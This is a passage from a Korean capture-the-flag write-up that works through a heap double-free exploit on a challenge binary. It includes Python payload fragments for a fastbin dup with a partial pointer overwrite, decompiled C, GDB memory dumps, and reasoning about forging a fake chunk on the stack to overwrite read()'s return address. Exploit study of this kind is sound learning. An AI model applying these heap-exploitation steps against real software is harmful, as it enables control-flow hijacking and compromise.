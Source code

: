 ``` bash
```
Double free 취약점을 트리거하기 위해 `7777`의 `0x000055555555d240`을 `5555`의 `0x000055555555d1d0`으로 덮어야한다.

여기에서 `credential`의 사이즈가 `0x60`인 이유는 후술하도록 하고, `0x60`짜리 chunk를 3개 할당받다보니 chunk 주소의 두 번째 바이트가 달라진다.

`0xd1d0` 중 `0x1d0`은 고정이고 `0xd000`부분만 변동될 것이므로 여기에서 1/16 확률로 exploit에 성공한다.

Fastbin을 어떻게 잘 조작하거나 heap leak을 하면 가능할 것 같긴 한데 확률이 그리 낮지 않아서 그냥 진행하기로 했다.
``` python
    delete(s, b"6")
    save(s, 0x60, b"GGGG", b"6" * 0x20 + b"\xd0\xd1")
    
    delete(s, b"5")
    delete(s, b"6")
    delete(s, b"7")
```
위 payload와 같이 `7777`의 `credential`을 `5555`의 `credential`과 일치시키고 `5555`, `6666`, `7777`순으로 `free`를 하게 되면 다음과 같이 fastbin이 구성된다.

- `0x55555555d1d0` -> `0x55555555d160` -> `0x55555555d1d0`

이제 `malloc`을 통해 같은 사이즈의 chunk를 요청하면 `0x55555555d1d0`을 할당받을 수 있고, 여기에 stack의 주소를 쓴 뒤 해당 주소 위에 fake chunk header를 쓸 수 있다면 fastbin list에 추가된다.

따라서 거꾸로 fake chunk header를 구성할 수 있는 stack의 위치를 찾아보았는데, 처음에는 `save()`의 stack을 활용하려고 했다.
``` c
unsigned __int64 save_12EE()
{
  unsigned int len; // [rsp+8h] [rbp-68h] BYREF
  int i; // [rsp+Ch] [rbp-64h]
  ...
}
```
`len`, `i`를 이용하여 fake chunk header를 구성하면 `return address`까지 `0x70`만큼 차이가 나므로 최대 할당 크기인 `0x78`보다 작아 가능할 것 같았다.

그런데 문제는 `0x70` 크기의 chunk를 할당받으려면 `len`에 `0x70`을 입력해야 하는데, fake chunk header를 구성할 때는 `len`에 `0x80`을 입력해야 `size`가 맞기 때문에 모순이 생긴다.

그래서 다른 영역을 찾아야했는데 `return`을 해서 종료하는 함수가 없어서 고민하다가, `save()`에서 영역을 할당받고 `read`를 할 때 `read()`의 `return address`를 덮으면 가능할 것 같았다.
``` c
unsigned __int64 save_12EE()
{
  ...
  password_4060[i].credential = malloc(len);
  printf("Enter credentials: ");
  read(0, password_4060[i].credential, (len + 1));
  ...
}
```
문제는 다시 fake chunk header인데, `read()`의 `return address`를 덮을 수 있는 영역을 `malloc()` 직전에 확인해보면 다음과 같다.
``` bash
gef➤  x/16gx 0x7fffffffdbd0
0x7fffffffdbd0: 0x0000000000000000      0x0000000000000000
0x7fffffffdbe0: 0x00007fffffffdce0      0x00007ffff7a6dd8e
0x7fffffffdbf0: 0x00007ffff7ff4000      0x0000003000000008
0x7fffffffdc00: 0x00007fffffffdcd0      0x00007fffffffdc10
0x7fffffffdc10: 0x000000000000000a      0x00007fffffffdcd4
0x7fffffffdc20: 0x0000000000000000      0x00007ffff7b030c3
0x7fffffffdc30: 0x0000000000000000      0x00007fffffffdcc0
0x7fffffffdc40: 0x00005555555551a0      0x0000555555555397
```
`0x7fffffffdbf8`에 `0x60`이 저장되어있지만 이 값은 `malloc()`에 인자로 전달된 값이 내부 로직을 실행하다가 저장된 값으로 이전의 모순이 똑같이 발생한다.
